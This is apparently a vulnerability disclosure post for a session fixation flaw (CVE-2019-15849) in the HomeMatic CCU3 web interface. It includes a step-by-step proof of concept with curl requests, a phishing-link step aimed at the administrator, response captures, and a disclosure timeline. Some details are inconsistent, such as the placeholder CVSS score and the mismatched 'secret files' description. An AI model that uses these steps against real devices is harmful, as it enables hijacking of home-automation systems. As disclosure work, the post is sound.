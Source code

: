 ```yaml
---
layout: post
title: "Session Fixation in HomeMatic CCU3"
date: 2019-09-14 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-15849"
cve_description: "HomeMatic CCU3 firmware 3.41.11 has a session fix vulnerability. An attacker can create a session ID and send it to the victim. After the victim log in to the WebUI, the attacker can use his session. The attacker could create a SSH login via the WebUI and easily compromise the system."
cve_affectedVersion: "Version: 3.41.11"
cvss: "XX.XX"
softwarePatchLink: "Update to the current version 3.47.15 or above"
---
```


## Overview

- Vulnerability: Session Fixation
- Vendor: eQ-3 AG
- Vendor Homepage: [https://www.eq-3.com/contact.html](https://www.eq-3.com/contact.html)
- Product: HomeMatic central CCU3
- Version: {{ page.cve_affectedVersion }}

## Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU3 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's [website](https://www.homematic-ip.com/produkte/detail/smart-home-zentrale-ccu3.html):
"The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). ..."

## Issue Description

While analyzing the implementation of the home automation system HomeMatic, one Session Fixation vulnerability has been identified, which can be exploited in order to display sensitive information. The vulnerability is in the central CCU3 firmware {{ page.cve_affectedVersion }}.

![Affected Version](/assets/CVE-2019-15849/CVE-2019-15849.HomeMatic.Version.JPG)

This vulnerability can be exploited by authenticated attackers with access to the web interface. The flaw allows the attacker to display secret files on the system.

The following **process flow** illustrates this approach:

### Get initial Session ID (SID)

1. Open WebUI login in browser: http://192.168.0.125/login.htm
2. HomeMatic will create and add the session ID to the URL parameter:

~~~ text
http://192.168.0.125/login.htm?sid=@s8JJ2bEJOr@
~~~

![Initial Session creation](/assets/CVE-2019-15849/CVE-2019-15849.HomeMatic.InitialSession.JPG)

### The session will not work without a successful login

1. To check this, execute the following **curl command** on the attacker site:

~~~ bash
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.0.125' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.0.125/pages/index.htm?sid=@s8JJ2bEJOr@&client=3' -H $'Content-Type: application/json' -H $'Content-Length: 84' -H $'Connection: close' \
    --data-binary $'{\"version\": \"1.1\", \"method\": \"Event.poll\", \"params\": {\"_session_id_\": \"Hv4TQtaXO8\"}}' \
    $'http://192.168.0.125/api/homematic.cgi'
~~~

The **curl Response** is:

~~~ http
HTTP/1.1 200 OK
CONTENT-TYPE: application/json; charset=utf-8
Content-Length: 156
Connection: close
Date: Sun, 01 Sep 2019 16:51:11 GMT
Server: lighttpd/1.4.50

{
  "version": "1.1",
  "result": null,
  "error": {
    "name": "JSONRPCError",
    "code": 400,
    "message": "access denied (\"GUEST\" needed 0)"
  }
}
~~~

In the JSON response you can see the message "access denied (\"GUEST\" needed 0)". This means the session is not valid yet.

### Get a active session with admin rights

~~~ bash
1. Send Link "http://192.168.0.125/login.htm?sid=@s8JJ2bEJOr@" to the administrator 
2. Wait for victim login ...
~~~

### Recheck if the session is valid yet (same request from step 2)

1. To check this, execute the following **curl command** on the attacker site:

~~~ bash
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.0.125' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.0.125/pages/index.htm?sid=@s8JJ2bEJOr@&client=3' -H $'Content-Type: application/json' -H $'Content-Length: 84' -H $'Connection: close' \
    --data-binary $'{\"version\": \"1.1\", \"method\": \"Event.poll\", \"params\": {\"_session_id_\": \"Hv4TQtaXO8\"}}' \
    $'http://192.168.0.125/api/homematic.cgi'
~~~

The **curl Response** is:

~~~ http
HTTP/1.1 200 OK
CONTENT-TYPE: application/json; charset=utf-8
Content-Length: 45
Connection: close
Date: Sun, 01 Sep 2019 16:49:29 GMT
Server: lighttpd/1.4.50
~~~

**Congratulations - Now you have a valid session**
![Initial Session creation](/assets/CVE-2019-15849/CVE-2019-15849.HomeMatic.LoggedIn.JPG)

## Impact

This vulnerability affects the confidentiality of the system. This allows an attacker to create and read the session ID's. If an attacker is aware of the security issue, he or she may will attack the system by sending the user (admin) a link with a session ID. After a successful login of the victim, the attacker can use his session to manipulate the system. With this vulnerability flow, a complete system compromise is possible.

## Remediation

In order to avoid this vulnerability, it's suggested to disable the WebUI of HomeMatic. The HomeMatic-WebUI have many other security issues.

{%if page.softwarePatchLink %}{{ site.softwarePatchText }}{{ page.softwarePatchLink }}{% else %}{{ "" }}{% endif %}

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: 3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Credit

- {{ site.owner }}

## Vulnerability Disclosure Timeline

- 2019-September-01: Discovered vulnerability
- 2019-September-04: Vendor Notification
- 2019-September-10: Vendor Response/Feedback
- 2019-September-14: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 {{ site.owner }} and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## License

{{ site.LicenseDisplay }}